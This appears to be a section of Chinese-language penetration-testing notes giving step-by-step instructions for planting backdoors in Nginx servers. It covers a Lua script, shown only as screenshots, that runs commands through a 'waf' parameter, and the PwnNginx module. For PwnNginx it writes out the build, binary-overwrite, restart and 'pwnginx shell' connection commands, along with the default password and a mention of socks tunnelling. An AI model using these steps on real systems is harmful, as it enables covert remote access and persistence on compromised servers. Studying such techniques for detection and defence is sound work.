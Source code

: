   #### Nginx Lua后门
	From:https://github.com/netxfly/nginx_lua_security
	https://github.com/Y4er/Y4er.com/blob/251d88d8a3cf21e9bafe15c43d7900ffeacfa7ea/content/post/nginx-lua-backdoor.md
	后门利用的前提是获取到root权限，nginx安装有lua模块。
	在nginx.conf中http节处添加，指定lua脚本位置，以及nginx启动时加载的脚本
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/641.png)

	在lua目录/waf/中新建Init.lua，内容如下，require nginx表示加载nginx.lua中的模块。
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/642.png)

	/waf/目录中新建nginx.lua实现执行命令，参数为waf。
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/643.png)

	在nginx配置文件中加入location。
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/644.png)

	效果：
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/645.png)
  #### PwnNginx
	From:https://github.com/t57root/pwnginx
	解压好后编译客户端
	>make
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/646.png)

	编辑nginx的源文件/src/core/nginx.c找到configure arguments:在后面添加--prefix=/usr/local/nginx\n指定的是nginx安装的目录
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/647.png)

	重新编译nginx添加后门模块
	>./configure --prefix=/usr/local/nginx/ --add-module=/tmp/pwnginx-master/module
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/648.png)
	
	>make
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/649.png)

	覆盖新的nginx到原nginx目录
	>cp -f objs/nginx /usr/local/nginx/sbin/nginx
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/650.png)

	重启nginx
	>killall nginx&/usr/local/nginx/sbin/nginx
	连接
	>./pwnginx shell 目标机 nginx端口 密码
	默认密码是t57root，密码的配置文件在pwnginx-master\module\config.h文件夹中，可在重新编译nginx前修改密码
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/651.png)
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/652.png)

	此后门也可开启socks隧道